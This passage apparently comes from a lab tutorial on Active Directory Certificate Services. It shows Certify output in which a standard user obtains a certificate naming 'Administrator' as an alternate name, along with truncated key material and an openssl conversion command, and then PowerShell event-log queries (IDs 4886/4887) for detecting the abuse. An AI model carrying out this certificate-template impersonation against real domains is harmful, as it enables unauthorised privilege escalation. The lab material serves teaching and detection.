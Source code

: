 ```powershell
[*] Current user context    : EAGLE\bob
[*] No subject name specified, using current context as subject.

[*] Template                : UserCert
[*] Subject                 : CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] AltName                 : Administrator

[*] Certificate Authority   : PKI.eagle.local\eagle-PKI-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 36

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIE...
<SNIP>
<SNIP>
wgP7EwPpxHKOrlZr6H+5lS58u/9EuIgdSk1X3VWuZvWRdjL15ovn
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGLzCCBRegAwIBAgITFgAAACx6zV6bbfN1ZQAAAAAALDANBgkqhkiG9w0BAQsF
<SNIP>
<SNIP>
eVAB
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx


Certify completed in 00:00:15.8803493
```

![Certify-2](img/Certify-2.png)


[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *